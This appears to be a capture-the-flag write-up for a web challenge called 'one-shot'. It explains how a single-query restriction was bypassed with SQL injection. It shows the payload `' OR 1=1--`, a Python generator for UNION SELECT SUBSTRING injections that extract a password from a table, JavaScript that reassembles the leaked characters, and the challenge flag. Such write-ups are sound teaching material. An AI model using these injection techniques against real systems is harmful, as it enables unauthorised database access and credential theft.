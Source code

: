 Send the normal injection, `' OR 1=1--`, we only get the first character of the query.

![Normal injection](./web/one-shot/test.png)

So we have to do some more stuff, maybe inject so that we can get the 2nd, 3rd, 4th... character to be the first char. That leads us to `SUBSTRING()` function in SQL. I also use `UNION` to concat the results of `SELECT` query, as that's the only way to bypass the `you can only execute one query`.

The python script to generate SQL injection string:
```python
def generate_sql(id):
    query = "' or ''='' "
    for i in range(31):
        query += " UNION "
        query += f"SELECT SUBSTRING(password, {i+2}, length(password)) FROM table_{id}"

    query += ";--"
    print(query)

id = input("enter id: ").strip()
# ID get from hidden input tag in the form.
generate_sql(id)
```
Run the script and enter the result string to the box, we get the following result:

![Halfway to the result](./web/one-shot/halfway.png)

We want to sort them from longest to shortest, so I write some JS code to do just that:
```javascript
function sortByTextLength(a, b) {
  return -a.textContent.length + b.textContent.length;
}

const list = document.querySelector('ul');
const listItems = list.querySelectorAll('li');
const listItemsArray = Array.from(listItems);

listItemsArray.sort(sortByTextLength);

list.innerHTML = ''; // Clear existing content
listItemsArray.forEach(item => list.appendChild(item));
result = ""
listItemsArray.forEach(item => result += item.innerText[0]);
console.log(result);
```

Paste the output password to the input, we get the flag

#### Flag: amateursCTF{go_union_select_a_life}

